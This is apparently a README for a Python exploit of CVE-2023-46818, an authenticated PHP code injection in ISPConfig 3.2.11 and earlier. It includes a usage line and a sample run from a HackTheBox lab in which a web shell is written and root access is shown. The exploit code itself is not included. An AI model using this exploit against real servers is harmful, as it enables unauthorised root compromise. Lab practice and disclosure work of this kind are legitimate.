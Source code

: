 # CVE-2023-46818 Python Exploit

## 🔥 Description

This Python exploit script targets a security vulnerability in ISPConfig's `records` POST parameter to `/admin/language_edit.php`, which is not properly sanitized. This allows an authenticated admin to inject and execute arbitrary PHP code.

## ⚠️ Affected Versions

Version 3.2.11 and prior versions.

## ⚙️ Usage

```python
python3 CVE-2023-46818.py <URL> <Username> <Password>
```

## 💻 Sample Run
```shell
┌──(motoh4ck3r㉿kali)-[~/HTB/Linux/nocturnal]
└─$ python3 CVE-2023-46818.py http://127.0.0.1:8081 motoh4ck3r broombroom
[+] Logging in with username 'motoh4ck3r' and password 'broombroom'
[+] Login successful!
[*] Fetching CSRF tokens...
[+] CSRF ID: language_edit_92017c65f0bcba0f230f5cc1
[+] CSRF Key: 7d06eed7d23c29e5c9633920a8122339d91373e8
[+] Injecting shell payload...
[+] Shell written to: http://127.0.0.1:8081/admin/sh.php
[+] Launching shell...

ispconfig-shell# hostname & whoami & id
nocturnal
root
uid=0(root) gid=0(root) groups=0(root)

ispconfig-shell#
```


## ℹ️ Reference

https://seclists.org/fulldisclosure/2023/Dec/2

## ❤️ Credits

Shout out to Egidio Romano for this discovery.
